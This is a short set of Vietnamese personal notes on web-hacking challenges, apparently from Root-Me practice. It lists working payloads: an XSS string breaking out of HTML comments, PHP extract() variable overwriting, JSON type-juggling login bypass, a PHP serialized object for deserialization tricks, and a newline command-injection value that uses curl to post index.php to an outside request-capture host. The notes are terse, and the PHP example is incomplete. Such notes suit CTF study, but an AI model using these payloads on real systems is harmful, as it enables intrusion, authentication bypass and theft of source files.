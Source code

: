 
##kết thúc dự án , một phần vì lười , một phần sợ root-me ban =))

###;https://www.httpwatch.com/httpgallery/introduction/  http header
https://curl.haxx.se/docs/httpscripting.html#GET
`--><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->`


hàm extract :  truyền biến trực tiếp thông qua url : ví dụ
```
url="http://xxx.com/?get=nnanaa

<?php
$get="notme"

echo $get ; // lúc trưa truyền thì in ra notme , khi get=jjjj in ra jjj
```

 meta http-equiv="refresh" content="1; url=https://www.w3schools.com/tags/att_meta_http_equiv.asp">\
 
 auth={"data":{"login":"a","password":"ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb"}}
 có thể ép kiểu true= {"login":true}
 
 
 ---
 ip=localhost%0Acurl -X POST -F file=@index.php https://requestbin.fullcontact.com/  blind commandline , in ra 1 file
 
 O:4:"test":2:{s:7:"jackpot";N;s:5:"enter";N;} , tạo giá trị null, obj , hoặc nan,


